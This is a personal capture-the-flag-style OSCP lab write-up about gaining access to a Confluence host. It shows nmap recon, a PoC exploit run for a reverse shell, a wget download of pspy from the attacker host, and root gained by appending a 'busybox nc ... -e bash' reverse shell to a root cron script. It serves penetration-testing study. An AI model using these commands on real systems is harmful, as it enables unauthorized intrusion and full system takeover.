

**Start 08:23 07-02-2025**

---
```
Scope:
192.168.192.41
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- flu -sT --min-rate=5000 -T5

PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEXrRUno9oC8lTzQc4mkRYkhVE1WFraJqALzhn+4EmH4j57s4WioLYYYESpMPsdluWAXJreN+LVlUL/5UteMBbI=
|   256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIITU00dnwzhT+PFW6y7qRlFYCQ0UzFakp4R4NIq5TWiS
8090/tcp open  http     syn-ack Apache Tomcat (language: en)
| http-title: Log In - Confluence
|_Requested resource was /login.action?os_destination=%2Findex.action&permissionViolation=true
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 966E60F8EB85B7EA43A7B0095F3E2336
|_http-trane-info: Problem with XML parsing of /evox/about
8091/tcp open  jamlink? syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:30 GMT
|     Connection: Close
|   GetRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:00 GMT
|     Connection: Close
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:00 GMT
|     Connection: Close
|     content-length: 0
|   Help, Kerberos, LDAPSearchReq, LPDString, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 414 Request-URI Too Long
|     text is empty (possibly HTTP/0.9)
|   RTSPRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:00 GMT
|     Connection: Keep-Alive
|     content-length: 0
|   SIPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:35 GMT
|     Connection: Keep-Alive
|_    content-length: 0
```

It seems to be running an **Atlassian Confluence** server which has been covered in [[18. Port Redirection and SSH Tunneling#18.2.1 - Simple Port Forwarding Scenario|this chapter]].  


For this I quickly find a PoC on GitHub I can use:


Let's go ahead and boot it up.


## Foothold

```bash
python3 through_the_wire.py --rhost 192.168.192.41 --rport 8090 --lhost 192.168.45.228 --protocol http:// --reverse-shell
```


Ez Pz, let's start enumerating.


### local.txt


It appears we're the only user, so let's change to our `/home` directory and start from there.


## Privilege Escalation


We don't find anything interesting otherwise using linpeas excpet for the `/opt/log-backup.sh` file but I don't know how to leverage it yet, thus I download over `pspy`.

```bash
wget http://192.168.45.228/pspy32 -O pspy
chmod +x pspy
timeout 60s ./pspy
```


And yet again we see what happens underneath:


:::important
Since it is a cronjob run by *root* where we have read and write privileges on, we can go ahead and add the following line at the end, which on execute will grant us a `root` shell.
:::

```bash
echo 'busybox nc 192.168.45.228 443 -e bash' >> /opt/log-backup.sh
```


:::success
Worked like a charm.
:::

## proof.txt



---

**Finished 09:07 07-02-2025**

[^Links]:  [[OSCP Prep]]

